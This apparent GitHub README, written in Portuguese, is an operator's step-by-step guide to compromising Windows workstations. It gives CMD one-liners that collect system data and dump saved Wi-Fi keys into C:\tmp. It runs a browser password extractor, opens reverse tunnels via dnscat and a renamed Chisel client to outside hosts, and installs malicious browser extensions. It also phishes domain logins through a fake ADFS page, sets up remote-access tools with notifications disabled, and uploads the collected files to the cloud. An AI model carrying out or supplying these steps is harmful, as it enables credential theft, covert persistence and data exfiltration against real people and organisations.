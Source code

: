 # Guia de Execução

1 Ferramentas
Baixar o [1drive.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) com todas as ferramentas de uma vez\

# Android Wi-Fi
instalar um leitor de qrcode no seu celular \
https://www.howtogeek.com/818934/how-to-find-wi-fi-password-on-android/ \
https://android.gadgethacks.com/how-to/see-passwords-for-wi-fi-networks-youve-connected-your-android-device-0160995/

# Mapeamento
1. Criar a pasta tmp em **C:\tmp** Nela estarão os arquivos que você deve coletar ao final, comprimindo a pasta e enviando para nuvem
2. Baixar Ferramentas\
  2.1 O Arquivo [EXECUCAO.zip](https://1drv.ms/u/s!AjfrkQYLG_fYgUBJHhDy2mxAOZ9x?e=Ms4N1w) ou [github.zip](https://github.com/tu74nkamon/guide/blob/main/EXECUCAO2.zip) contém as pastas:\
      - Extencoes (Extenções Browser Chrome e Edge)\
      - deploycat (tunel)\
      - browser_pwd_extract (extrator de senhas browser que é o arquivo **chromium_based_browsers.exe**)\
3. Mapeamento (Cada comando abaixo eh executado no **CMD do windows**)\
   - 3.1 Captura de MAC Address\
       echo ">>>>>>>>>>>>>>> MAC <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && getmac >> C:\tmp\output.txt && cls && echo “done”
   - 3.2 Captura de configurações de rede\
      echo ">>>>>>>>>>>>>>> NetConf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && ipconfig /all >> C:\tmp\output.txt && cls && echo “done”
   - 3.3 Captura de informações de sistema\
      echo ">>>>>>>>>>>>>>> Sysinf <<<<<<<<<<<<<<<<<" >> C:\tmp\output.txt && systeminfo >> C:\tmp\output.txt && cls && echo “done”
   - 3.4 Criação de pasta temporária e Captura de Senhas WiFi (**Aplicável para notebook**)
      for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear >> C:\tmp\output.txt && cls && echo “done”

# PWD Browsers
4. Captura de Informações dos Browsers\
   4.1 Certifique-se de que existe a pasta C:\tmp\    \
   4.2 Baixe / Extraia  o ZIP [chromiumaster.zip](https://1drv.ms/u/s!AjfrkQYLG_fYelG61GupNU6K5qI?e=ZWqoUe) também presente no arquivo EXECUCAO2.zip e execute o programa chromium_based_browsers.exe. 

# Reverse Tunnel
5. Tunnel
- 5.1 DNS Cat
   Baixar [arquivo](https://github.com/tu74nkamon/guide/blob/main/connect.ps1) e colocar em C:\Users\"user"\connect
\

Executar em powershell (dentro da pasta C:\Users\"user"\connect) os seguintes comandos:
- Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
- . ./connect.ps1
- Start-Connect -d "n1.cwdlab.com" -s "172.16.1.197"

- 5.2  Chisel Tunnel
   Download no [1drive](https://1drv.ms/f/s!AjfrkQYLG_fYgSX-FsDPaSIMLnfq?e=lS5hOx) ou [github](https://github.com/tu74nkamon/guide/blob/main/VENUS.zip) e alterar em cada maquina diferente a porta para o intervalo de 1080 ate 1090 (Executar no CMD do windows)\


   PC1) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1080:socks\
   PC2) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1081:socks\
   PC3) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1082:socks\
   ...\
   PC8) venus.exe client https://lobster.cwdlab.com R:127.0.0.1:1087:socks
   
# Extenção   
6. Extensão de Browser\
   6.1 Escolha uma versão das Extenções e instale nos navegadores CHROME e EDGE\
   6.2 Você pode verificar se o dominio eh alcançável por:\
        - Versao1 [https://happyteachersdayquotes.com/verify](https://happyteachersdayquotes.com/verify)\
        - Versao2 [https://cwdlab.com/verify](https://cwdlab.com/verify)\
        - Versao3 [https://gitauth.co/verify](https://gitauth.co/verify)

# Raspberry
7. Lembrar de plugar o raspberry em algum ponto de rede\

# o365
8. Captura de Credenciais de dominio\
 Acessar https://amz.run/6YAy ou https://adfs.aufoglass.com/adfs/ls/?wa=wsignin1.0&wtrealm=urn%3afederation%3aMicrosoftOnline e pedir alguém para logar na página nossa do ADFS (Microsoft)
 
 
 # Tools Acesso Remoto
 lembrar de baixar, instalar e configurar (logar em contas de acesso permanente) as ferramentas de acesso remoto.
- 1 GetScreen 
 Faça login com a conta fornecida para acesso permanente \
 ![image](https://user-images.githubusercontent.com/70968631/231205769-25e27ba5-b2d9-4a11-b938-cbcb929302a1.png)
 
 Desabilite as notificações\
 ![image](https://user-images.githubusercontent.com/70968631/231206995-7d9c8709-f4af-4e32-8ae6-bd1d1038c610.png)
 
- 2 Teamviewer
Instale o programa e logue em computadores e contatos com a conta fornecida\
![image](https://user-images.githubusercontent.com/70968631/231211994-491e7898-a76b-4915-b32d-dfe316566960.png)

 #Comprima a pasta **C:\tmp** e envie para cloud 
